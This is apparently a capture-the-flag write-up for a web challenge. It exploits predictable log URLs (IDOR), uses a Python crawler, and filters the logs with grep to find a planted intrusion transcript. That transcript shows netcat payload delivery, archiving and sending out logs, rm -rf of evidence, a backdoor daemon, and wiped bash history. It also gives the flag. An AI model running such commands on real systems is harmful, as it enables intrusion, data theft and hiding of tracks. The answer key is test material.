

# Lots of Logs
**Category**: Web

**Level**: Easy

**Points**: 175

**Description**:
```markdown
As a professional logger, I made an extensive logger that logs all of the logs I log to the blog I blog so that no log goes unlogged. I post some logs to the log catalog on my log blog.

https://logs.sdc.tf/
```

## Writeup


My teammate first started on this problem and did the initial recon on the website. On the front page were a few different posts about logs with links to raw logs. The links followed a predictable pattern - `https://logs.sdc.tf/logs/2022/3/9/Wed.log`. All you needed to do was guess a year, month, day, and day of the week to get a log. This is what's known as an IDOR vulnerability, or [Insecure Direct Object Reference vulnerability](https://portswigger.net/web-security/access-control/idor). This is what happens when a user-controlled parameter can give information about other objects than what they are intended to have access to. Imagine if a bank created accounts sequentially. If your account number is `123`, then you know that someone has account number `124`, and you can use that against them. Randomizing important information like that can help prevent IDOR vulnerabilities. 

A typical log looks like this (except around 500 lines):

```
Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)

john@logger:~# ./logger

Wed 03/09 07:20:31 START : ************************** STARTING LOGGING **************************
Wed 03/09 07:20:31 LOG   : 0 logs logged!
Wed 03/09 07:21:25 LOG   : 13 logs logged!
Wed 03/09 07:22:05 PROC  : Processing 13 logs! 
Wed 03/09 07:22:45 LOG   : 13 logs logged!
Wed 03/09 07:23:31 LOG   : 8 logs logged!
Wed 03/09 07:24:23 LOG   : 11 logs logged!
Wed 03/09 07:25:08 SELL  : Sold 13 logs for $96.00 each! 
...
Wed 03/09 01:08:58 LOG   : 6 logs logged!
Wed 03/09 01:09:53 LOG   : 12 logs logged!
Wed 03/09 01:10:44 STOP  : ************************** STOPPING LOGGING **************************
Wed 03/09 01:10:44 FIN   : Sold 2352 logs for a total of $259272 profit!
```

My teammate (@phishfood) wrote a script that would take a date, format according to the pattern used for the URL, and download a log. It would then repeat until it didn't find any more logs. He used [this link](https://www.adamsmith.haus/python/answers/how-to-iterate-through-a-range-of-dates-in-python) and [this link](https://docs.python.org/3/library/datetime.html#strftime-and-strptime-behavior) to figure out how to iterate through and format the dates. This is what it looked like:

```python
import datetime, requests
​
start_date = datetime.date(2016, 10, 29)
end_date = datetime.date(2022, 4, 20)
delta = datetime.timedelta(days=1)
​
while start_date <= end_date:
    month = int(start_date.strftime('%m'))
    day = int(start_date.strftime('%d'))
    path = start_date.strftime('%Y/' + str(month) +'/' + str(day) + '/%a.log')
    print(requests.get('https://logs.sdc.tf/logs/' + path).text)
    start_date += delta
```

Once the script was running, he sent a zip folder of 1996 log files that each had hundreds of lines in them and said "If the flag is in here somewhere, that will suck" (yes, we tried `grep` first and got nothing). This is when I hopped on, got caught up with what he had done, and thought to myself, "It's time to abuse some regex". I wanted to know if ANY log was out of the ordinary; knowing CTF organizers, it could be after or before a regular line on some random date. So, I wrote some regular expressions that checked for every single "normal" line and filtered those out. It was a monster of a command but totally worked:

```bash
cat all.log | grep -v "^Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)$" | grep -v "^john@logger:~# ./logger$" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} LOG   : [0-9]* logs logged\!$" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} PROC  : Processing [0-9]* logs\!( [0-9]* logs still need processing)?" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} START : \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* STARTING LOGGING \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*" | grep . | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} PROF  : Profitted .[0-9]*\.[0-9]{2}! \(.[0-9]*\.[0-9]{2} total\)" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} SELL  : Sold [0-9]* logs for .[0-9]*\.[0-9]{2} each\!( There are still [0-9]* unsold logs\!)?" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} STOP  : \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* STOPPING LOGGING \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} FIN   : Sold [0-9]* logs for a total of .[0-9]* profit!"
```

After taking an hour or so to make this command and filter out everything normal, I was left with some very interesting logs:

```
john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
# whoami
root
# ls
exploit  logs  site
# ls logs
2016  2017  2018
# tar -cf data.tar.gz ~/logs
tar: Removing leading `/' from member names
tar: /home/john/data.tar.gz: file is the archive; not dumped
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
```

At this point, it was just a matter of repeating the commands above. I connected to `logger.sdc.tf` on port 1338 and typed in the password, to which I was greeted with the flag!



**Flag** - `sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}`